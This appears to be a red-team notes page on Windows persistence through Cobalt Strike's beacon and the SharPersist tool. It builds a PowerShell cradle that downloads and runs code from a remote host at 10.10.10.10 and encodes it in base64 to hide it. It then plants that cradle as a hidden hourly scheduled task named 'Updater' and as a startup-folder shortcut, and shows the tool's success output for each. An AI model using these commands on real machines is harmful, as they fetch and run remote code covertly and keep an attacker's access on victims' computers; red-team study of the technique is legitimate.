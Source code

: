 ## Scheduled Tasks

The Windows Task Scheduler allows us to create tasks that execute on a pre-determined trigger. That trigger could be a day, when users logon, when the computer goes idle, when its locked and more over.

In order to avoid problems of quotations in the IEX cradle, we can encode it in base64 and use the `-EncodedCommand` or `-enc` parameter.

> **Note**: Use `Unicode` enconding instead of `UTF8` or `ASCII` at base64 conversion.

In PowerShell:

```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgAxADAALwBhACIAKQApAA==
```
In Bash:

```bash
kali@kali:~# str='IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/a"))'
kali@kali:~# echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgAxADAALwBhACIAKQApAA==
```

Finally we can use `SharPersist` to create a scheduled task.

```
beacon> execute-assembly .\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgAxADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgAxADAALwBhACIAKQApAA==
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added
```

## Startup Folder

Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. It's commonly used to bootstrap the user's home environment (set wallpapers, shortcut's etc). 

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgAxADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgAxADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
```